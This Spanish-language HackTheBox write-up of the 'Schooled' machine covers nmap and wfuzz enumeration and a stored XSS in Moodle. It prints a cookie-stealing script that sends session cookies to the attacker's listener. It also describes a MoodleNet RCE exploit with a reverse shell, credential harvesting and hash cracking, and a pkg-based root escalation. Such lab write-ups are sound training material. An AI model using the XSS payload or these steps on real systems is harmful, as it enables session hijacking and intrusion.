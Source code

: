 ```yaml
---
title: "Schooled - HackTheBox"
layout: single
excerpt: "Esta es una máquina de dificultad media, para su intrusión me aproveché de un 'XSS' para robarle la cookie de sesión al administrador y hacer uso de un 'exploit' para ganar ejecución de código arbitrario, para la escalada de privilegios tenía la capacidad de ejecutar el binario `pkg` con privilegios de 'root', para ello me dirigí a gtfobins y encontré una carga útil que permitía escalar privilegio."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/133932400-60dcfc4d-9b54-4d9d-9f6b-c139b2c4c53c.jpg"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/125662338-fd8b3b19-3a48-4fb0-b07c-86c047265082.png"
categories:
  - HackTheBox
tags:
  - XSS
  - Cookie Hijacking
  - pkg
  - mysql
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/133932400-60dcfc4d-9b54-4d9d-9f6b-c139b2c4c53c.jpg">
</p>

Empece con un escaneo de `Nmap` para detectar puertos abiertos en la máquina.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# nmap -sS --min-rate=5000 -vvv -n -Pn --open 10.10.10.234 -oN targeted
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 06:18 EDT
Initiating SYN Stealth Scan at 06:18
Scanning 10.10.10.234 [1000 ports]
Discovered open port 22/tcp on 10.10.10.234
Discovered open port 80/tcp on 10.10.10.234
Completed SYN Stealth Scan at 06:18, 0.52s elapsed (1000 total ports)
Nmap scan report for 10.10.10.234
Host is up, received user-set (0.047s latency).
Scanned at 2021-09-18 06:18:46 EDT for 0s
Not shown: 798 filtered ports, 200 closed ports
Reason: 798 no-responses and 200 resets
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh 	syn-ack ttl 63
80/tcp open  http	syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.61 seconds
       	Raw packets sent: 1798 (79.112KB) | Rcvd: 202 (8.088KB)
```

Hice otro escaneo para detectar la versión de cada puerto abierto.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# nmap -sC -sV -p22,80 10.10.10.234 -oN webScan                    	 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 06:20 EDT
Nmap scan report for 10.10.10.234
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh 	OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey:
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp open  http	Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.25 seconds
```

Tenía dos puertos abiertos, el primero era de servicio `SSH` y el otro era un servidor web, poco podía hacer en el primero por lo que recurrí a ver que había en el servidor web.

![https://imgur.com/LXCKb0F.png](https://imgur.com/LXCKb0F.png)

Al parecer era una página de colegio, seguí investigándola un poco más y encontré lo siguiente en el "footer" de la web.

![https://imgur.com/Vnl3TCA.png](https://imgur.com/Vnl3TCA.png)

Esto me llamo la atención, pensé que se podría estar aplicando `virtual hosting`, es decir alojar distintos dominios en una sola 'IP', para ello lo introduje en el `/etc/hosts`.

![https://imgur.com/9V1ffkh.png](https://imgur.com/9V1ffkh.png)

Volví a acceder a la web, pero no había nada interesante.

![https://imgur.com/LXCKb0F.png](https://imgur.com/LXCKb0F.png)

Hice uso de `whatweb` para ver si corría algún `CMS`.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# whatweb http://schooled.htb/
http://schooled.htb/ [200 OK] Apache[2.4.46], Bootstrap, Country[RESERVED][ZZ], Email[#,admissions@schooled.htb], HTML5, HTTPServer[FreeBSD][Apache/2.4.46 (FreeBSD) PHP/7.4.15], IP[10.10.10.234], PHP[7.4.15], Script, Title[Schooled - A new kind of educational institute], X-UA-Compatible[IE=edge]
```

Al parecer era la misma, para ello hice `fuzzing` de subdominios y encontré uno que me llamo la atención.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# wfuzz -c --hc=404 -u http://schooled.htb/ -H "Host: FUZZ.schooled.htb" -w /usr/share/amass/wordlists/subdomains.lst -t 20 --hw=1555
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                     	*
********************************************************

Target: http://schooled.htb/
Total requests: 8215

=====================================================================
ID       	Response   Lines	Word   	Chars   	Payload                                                                                 	 
=====================================================================

000002430:   400    	10 L 	45 W   	347 Ch  	"ferrari.fortwayne.com."                                                                	 
000004127:   200    	1 L  	5 W    	84 Ch   	"moodle"
```

`Moodle` era un subdominio que al parecer estaba aplicando, lo introduje en el `/etc/hosts`.

![https://imgur.com/OShD4Q5.png](https://imgur.com/OShD4Q5.png)

Y la página me reporta algo diferente, era un `moodle`.

![https://imgur.com/tCieGJx.png](https://imgur.com/tCieGJx.png)

Tenía un botón que ponía `Log In`, dándole clic me redirigió a una página de inicio de sesión.

![https://imgur.com/dvEEVpA.png](https://imgur.com/dvEEVpA.png)

No tenía credenciales por lo que poco podía hacer, pero me podía registrar.

![https://imgur.com/W3FR84S.png](https://imgur.com/W3FR84S.png)

Una vez registrado, accedí.

![https://imgur.com/OnSim3m.png](https://imgur.com/OnSim3m.png)

Viendo todas las asignaturas que habían, `matemáticas` era la única que tenía un usuario llamado 'Manuel Philips'.

![https://imgur.com/3VUKpya.png](https://imgur.com/3VUKpya.png)

Encontré un comentario de este usuario.

![Sin título (4) (1)](https://user-images.githubusercontent.com/69093629/133931890-edc2a9ae-3ac4-4e6e-a0a9-0caf666843f0.png)

Lo que más me llamo la atención es que pone que verificara a todos los usuarios, mirando un poco más la página encontré este `buffer` que al parecer me permitía hablar con `Manuel Philips`, Intente ver si era vulnerable a `XSS`.

![Sin título (1) (2) (1)](https://user-images.githubusercontent.com/69093629/133931959-b6273540-4006-4950-8f7f-042e62dc398f.png)

Y me reporto la alerta por pantalla.

![https://imgur.com/OpYC8nU.png](https://imgur.com/OpYC8nU.png)

Ahora que sabía que era vulnerable a `XSS` me acordé del mensaje que decía que se verificarían todos los usuarios, pensé en efectuar un `Cookie Hijacking`, es decir robar la `cookie` de sesión del usuario privilegiado, para ello use la siguiente sintaxis en `JS`.

```js
<script>document.location="http://10.10.16.3/value_cookie="+document.cookie</script>
```

Realmente se puede hacer de muchas maneras.

![https://imgur.com/upgz0Co.png](https://imgur.com/upgz0Co.png)

Abrí un servidor por `Python` y recibí mi `cookie` de sesión por `GET` más otras que no eran mías.

![https://imgur.com/gYNFMRR.png](https://imgur.com/gYNFMRR.png)

Me autentiqu´r con la `cookie` que recibi y al parecer era del usuario `Manuel Philips`, volviendo al mensaje de antes, vi que ponia algo de `MoodleNet`, me dio por investigar y encontré un exploit de `Lanz` que te garantiza `RCE`.

![Captura de pantalla (2)](https://user-images.githubusercontent.com/69093629/133928030-748d5a80-0d9f-4ed9-be5d-0d78952340d3.png)

Lo ejecute brindándole la `cookie` de sesión del usuario `Manuel Philips` y ejecutando una `reverse shell` por `mkfifo` y gane acceso a la máquina.

![https://imgur.com/JpUx8Ox.png](https://imgur.com/JpUx8Ox.png)

Investigando la maquiná encontré un archivo llamado `config.php` que tenía credenciales de `MySQL`.

![https://imgur.com/r590xtu.png](https://imgur.com/r590xtu.png)

Antes de usar `MySQL` hice uso de la utilidad `MySQLshow` para enumerar un poco las bases de datos que habían y sus tablas.

![Qm7IKtT](https://user-images.githubusercontent.com/69093629/133929540-2504f516-0097-41ca-9ca8-e896e68c1dd1.png)

Tras una enumeración de la base de datos `Moodle` encontré una tabla en especial llamada `mdl_user`, enumerándola encontré distintas columnas, pero me llamaron la atención en especial "username", "password" y "email", tras enumerarlas me reporto distintos `hashes` de usuarios.

![https://imgur.com/CBBvwrR.png](https://imgur.com/CBBvwrR.png)

Decidí crackear los `hashes` con `john` en local y conseguí crackear la credencial `!QAZ2wsx` que era del usuario `jamie`, como la máquina tenía `SSH` abierto probé a autenticarme con estas credenciales y accedí, ya pude visualizar la "flag" del usuario.

![NPUMyaN](https://user-images.githubusercontent.com/69093629/133930143-76bae971-7103-44df-b564-bc03fb6052b4.jpg)

<hr>
<h1 align="center"><b>ESCALADA DE PRIVILEGIOS</b></h1>

Haciendo `sudo -l` vi que podía ejecutar `pkg` como cualquier usuario.

![https://imgur.com/5rV3sG0.png](https://imgur.com/5rV3sG0.png)

Me dirigí a [gtfobins](https://gtfobins.github.io) y encontré una carga útil que me permitía escalar privilegios.

![https://imgur.com/EjF0tv9.png](https://imgur.com/EjF0tv9.png)

En la máquina víctima no tenía `fpm` instalado, para ello lo hice en mí máquina, hice que le otorgase privilegios `SUID` a la `bash`, lo transferí a la máquina víctima y lo ejecute, ya pude visualizar la "flag" de `root`.

![t7fDsbP](https://user-images.githubusercontent.com/69093629/133930359-c73352b9-00dd-4bf5-88dc-d9078cf3439a.jpg)





































